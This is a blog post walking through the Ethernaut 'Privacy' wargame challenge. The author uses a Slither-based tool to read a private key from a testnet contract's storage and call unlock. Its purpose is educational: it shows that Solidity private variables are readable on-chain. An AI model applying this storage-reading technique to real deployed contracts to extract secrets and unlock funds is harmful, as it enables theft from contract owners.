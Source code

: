 ```yaml
---
layout: post
title: Slithering Through the Dark Forest
summary: Using a slither tool to unlock a contract with a hidden key. 
image: /images/slithering-through-the-dark-forest.jpg
---
```

Using a slither tool to unlock a contract with a hidden key. 

### A Coincidence of Wants

As I worked through the Ethernaut challenges, I started familiarizing myself with Trail of Bits' static analyzer [Slither](https://github.com/crytic/slither/). An [issue](https://github.com/crytic/slither/issues/793) on the Github repo gave me the idea to build a tool that reads storage from deployed smart contracts without needing to know the storage slot beforehand. This tool is a WIP.

`slither-read-storage` makes it quick and easy to find the storage slot and value of a variable. It works by using Slither's underlying compilation engine [Crytic-compile](https://github.com/crytic/crytic-compile) to determine the storage layout of a given contract. Then, it's trivial to retrieve the value by calling `web3.getStorageAt([address], [slot])` under the hood.

Incidentally, this turned solving the "Privacy" challenge on the [Ethernaut wargame](https://ethernaut.openzeppelin.com/) into an opportunity to contribute back to Slither and learn the inner workings of how Solidity handles storage.

### Solving the "Privacy" Ethernaut Challenge 

In order to win, we need to set `locked` to false by determing a value `_key` that will equal `data[2]`.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

First, we pass the file of the target contract, the target address, the target variable name, and our rinkeby node's url. This effectively retrieve's the storage slot of `data[0]`.

```
$ slither-read-storage Privacy.sol 0xFdaF948A66903a0050ed051508c7C26D137E76C4 data --rpc-url https://rinkeby.infura.io/v3/{project-id} 

> Privacy.data type bytes32[3] evaluated to:
> 0x5ff6b6a895e912882837aab9887e5db421a2e29fd3f1603e22a98a6a92ac47ce
> in Privacy at storage slot:
> 3
```

Since we want `data[2]` and each element of the byte array fills its own slot, we also pass `--key 2`, traversing two indices forward in the array.

```
$ slither-read-storage Privacy.sol 0xFdaF948A66903a0050ed051508c7C26D137E76C4 data --rpc-url https://rinkeby.infura.io/v3/{project-id} --key 2

> Privacy.data type bytes32[3] evaluated to:
> 0x1ffbae565d970e3c29ccf51e52978efa673f5e0d64fee8d734d069beb97dac7c
> in Privacy at storage slot:
> 5
```

We have retrieved `data[2]` from the byte array which we must coerce from a byte32 value into a byte16 value as `unlock`'s parameter requires. Since the hexidecimal value has a length of 66, and the "0x" prefix helps the parser recognize hexidecmial, we will select the first 34 characters. 

```
$ "0x1ffbae565d970e3c29ccf51e52978efa673f5e0d64fee8d734d069beb97dac7c".slice(0,34)
> "0x1ffbae565d970e3c29ccf51e52978efa"
```

Now we invoke the contract's `unlock` method.

```
$ contract.unlock("0x1ffbae565d970e3c29ccf51e52978efa")
```

To verify we are [succesful](https://rinkeby.etherscan.io/tx/0x9d3cc85510b21d86953aab8d2b3d3dc5ab7dc52d12a2eaf608cec3b7ea2168c7#statechange), we check the value of `locked`.

```
$ await contract.locked()
> false
```

We've successfully unlocked the contract by reading the private variable with the help of Slither. In the dark forest of Ethereum, `private` variables are not, in fact, secret.

### Further Resources

To read more about how Ethereum storage works, check out [this section](https://docs.soliditylang.org/en/v0.8.7/internals/layout_in_storage.html) of the Solidity language documentation. For an alternative approach, I recommend checking out this [write-up](https://medium.com/coinmonks/ethernaut-lvl-12-privacy-walkthrough-how-ethereum-optimizes-storage-to-save-space-and-be-less-c9b01ec6adb6) (note: the Privacy.sol contract has a different storage layout since it contains constants).
